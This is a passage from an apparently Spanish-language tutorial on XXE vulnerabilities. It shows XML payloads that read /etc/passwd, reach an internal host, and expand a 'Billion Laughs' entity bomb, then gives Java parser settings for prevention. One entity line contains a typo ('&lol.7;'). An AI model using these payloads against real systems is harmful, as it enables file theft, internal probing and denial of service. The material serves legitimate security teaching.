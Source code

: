 1. **Lectura de Archivos Locales:**
   Un atacante puede leer archivos sensibles en el servidor al incluir referencias a entidades externas en el XML.
   - **Ejemplo:**
     ```xml
     <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
     <foo>&xxe;</foo>
     ```

2. **Solicitud HTTP a Sistemas Internos:**
   Los atacantes pueden utilizar XXE para enviar solicitudes HTTP a sistemas internos que no son accesibles externamente.
   - **Ejemplo:**
     ```xml
     <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal-system.local/"> ]>
     <foo>&xxe;</foo>
     ```

3. **Denegación de Servicio (DoS):**
   XXE puede ser explotado para consumir recursos excesivos del servidor, causando una denegación de servicio.
   - **Ejemplo:** Utilizando una entidad ampliada de forma exponencial (Billion Laughs Attack):
```xml
     <!DOCTYPE lolz [
     <!ENTITY lol "lol">
     <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
     <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
     <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
     <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
     <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
     <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
     <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
     <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol.7;&lol7;&lol7;&lol7;&lol7;">
     <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">]>
     <lolz>&lol9;</lolz>
```

### Cómo Prevenirlo:

1. **Desactivar Entidades Externas en XML Parsers:**
   - Configura el analizador XML para deshabilitar la resolución de entidades externas.
   - En Java, por ejemplo:
     ```java
     DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
     dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
     dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
     dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
     ```

2. **Validar y Sanitizar la Entrada XML:**
   - Asegúrate de que solo se acepten entradas XML esperadas y válidas.
   - Implementa validaciones estrictas y saneamiento de datos para evitar inyecciones maliciosas.
